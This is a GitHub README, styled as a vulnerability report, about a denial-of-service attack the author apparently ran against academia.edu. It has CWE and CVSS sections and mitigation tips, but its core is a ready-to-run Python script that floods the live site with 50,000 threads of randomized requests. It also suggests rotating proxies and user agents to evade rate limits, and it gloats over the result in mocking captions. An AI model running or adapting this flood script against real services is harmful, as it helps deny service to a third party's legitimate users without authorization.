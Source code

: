 # Skooled
### Ddos for Academina.edu

### Title: DDoS by Resource Exhaustion Using Proxies and User Agents Bypassing Rate Limits

Description: This report describes a Distributed Denial of Service (DDoS) attack targeting academia.edu, where multiple requests are generated to exhaust server resources. The attack leverages randomized URL generation, multiple proxy addresses, and varying user-agent headers to bypass rate-limiting mechanisms. By generating high-volume requests in rapid succession, the attack attempts to exhaust server resources, resulting in a denial of service for legitimate users.

All those Doctors on there and you didn't thunk too hire one to be able to stop me. 🤣🤣🤣

---

Vulnerability Details:

Attack Type: Distributed Denial of Service (DDoS) by Resource Exhaustion

Affected Platform: Academia.edu

Script Used: Python-based script (skooed.py) that generates random URLs, bypasses rate limits, and utilizes threading for high-volume concurrent requests.


Steps of the Attack:

1. Random URL Generation: The script randomly generates URLs using a combination of pre-defined base URLs and random 7-digit numerical strings, creating a large number of unique requests.


2. Threading for Concurrency: By using threading, the script launches multiple concurrent requests (up to 50,000 threads in this instance), resulting in a massive spike in request volume.


3. Resource Exhaustion: The rapid and massive influx of requests aims to overload the server resources (CPU, memory, bandwidth) and cause slowdowns or unavailability.


4. Rate Limit Bypass: The script can be modified with proxies and varying user agents to evade rate-limiting restrictions that would otherwise prevent excessive requests from the same IP.




---

CWE IDs:

CWE-400: Uncontrolled Resource Consumption - Excessive requests lead to resource exhaustion, impacting server availability.

CWE-770: Allocation of Resources Without Limits or Throttling - Lack of adequate rate limiting on academia.edu’s platform.

CWE-829: Inclusion of Functionality from Untrusted Control Sphere - Potential exploitation of unauthenticated resources due to improper rate limiting.



---

CVSS Score Calculation: Based on the characteristics of this DDoS attack, the CVSS (Common Vulnerability Scoring System) score would be calculated as follows:

Attack Vector (AV): Network (N)

Attack Complexity (AC): Low (L)

Privileges Required (PR): None (N)

User Interaction (UI): None (N)

Scope (S): Unchanged (U)

Confidentiality (C): None (N)

Integrity (I): None (N)

Availability (A): High (H) – Severe impact on availability due to resource exhaustion.


CVSS Score: 7.5 (High)

This score reflects the significant impact on availability and the low difficulty in executing this type of attack.


---

Mitigation Recommendations:

1. Rate Limiting and Throttling: Implement strict rate-limiting mechanisms based on IP addresses, user agents, and request patterns to detect and block excessive requests.


2. CAPTCHA Challenges: Enforce CAPTCHA or other challenge mechanisms for unusual access patterns to limit bot-based requests.


3. Web Application Firewall (WAF): Deploy a WAF to identify and block abnormal request patterns that indicate DDoS attempts.


4. Load Balancing and Autoscaling: Use load balancers to distribute traffic efficiently and enable autoscaling to handle sudden traffic spikes without exhausting resources.


5. Monitoring and Alerts: Continuous monitoring of server health and unusual traffic patterns can help detect early signs of resource exhaustion and trigger defensive actions.




---

PoC script:

```python
import requests
import threading
import random
import time

# List of base URLs to test
base_urls = [
    "https://www.academia.edu/10",
    "https://www.academia.edu/11"
]

# Function to generate a URL with a random 7-digit numerical string
def generate_random_url():
    base_url = random.choice(base_urls)  # Randomly select a base URL
    random_digits = ''.join([str(random.randint(0, 9)) for _ in range(7)])
    return f"{base_url}{random_digits}"

# Function to make a request to the generated URL
def make_request():
    url = generate_random_url()
    try:
        response = requests.get(url)
        print(f"Requested: {url} | Status Code: {response.status_code}")
    except requests.RequestException as e:
        print(f"Request failed for {url}: {e}")

# Main function to create threads and run multiple requests concurrently
def run_concurrent_requests(num_threads):
    threads = []
    for _ in range(num_threads):
        thread = threading.Thread(target=make_request)
        threads.append(thread)
        thread.start()
        time.sleep(0.1)  # slight delay to stagger requests

    for thread in threads:
        thread.join()

# Run the script with the desired number of threads
if __name__ == "__main__":
    num_threads = 50000  # Adjust the number of concurrent requests as needed
    run_concurrent_requests(num_threads)
```

![Attck PoC in terminal.](https://raw.githubusercontent.com/DeadmanXXXII/Skooled/main/Screenshot_20241110-000810.png)

![Attack underway to test.](https://raw.githubusercontent.com/DeadmanXXXII/Skooled/main/Screenshot_20241110-000824.png)

![🤣🤣 Oh well that was easy.](https://raw.githubusercontent.com/DeadmanXXXII/Skooled/main/Screenshot_20241109-235531.png)
